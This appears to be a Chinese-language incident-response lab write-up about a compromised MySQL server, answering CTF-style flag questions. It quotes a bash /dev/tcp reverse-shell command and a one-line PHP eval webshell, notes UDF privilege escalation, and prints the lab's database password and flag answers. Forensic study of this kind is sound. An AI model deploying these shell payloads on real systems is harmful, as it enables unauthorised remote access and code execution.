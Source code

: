 # 第二章 日志分析 Mysql应急响应

  
  
&lt;!--more--&gt;  
1.黑客第一次写入的shell flag{关键字符串}   
2.黑客反弹shell的ip flag{ip}  
3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx  
4.黑客获取的权限 flag{whoami后的值}  
在`/tmp/1.sh`中反弹了`shell`  
`bash -i &gt;&amp;/dev/tcp/192.168.100.13/777 0&gt;&amp;1`  
放到河马查杀，得到`sh.php`  
```php  
1 2 &lt;?php @eval($_POST[&#39;a&#39;]);?&gt; 4  
  
//ccfda79e-7aa1-4275-bc26-a6189eb9a20b  
```  
根据上面写入`webshell`的格式 所以猜测可能是`udf`提权  
查看源码得到`mysql`密码  
```php  
&lt;?php  
$conn=mysqli_connect(&#34;localhost&#34;,&#34;root&#34;,&#34;334cc35b3c704593&#34;,&#34;cms&#34;,&#34;3306&#34;);  
if(!$conn){  
echo &#34;数据库连接失败&#34;;  
}  
```  
`show variables like &#39;%plugin%&#39;;`  
`cd /usr/lib/mysql/plugin/` 得到 `udf.so`  
`ps -aux`查看mysql服务是以什么用户启动的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202403151520766.png)
因为是`mysql`用户启动，所以提权后也是`mysql`用户的权限  
`flag{mysql}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%BA%8C%E7%AB%A0-%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90-mysql%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/  

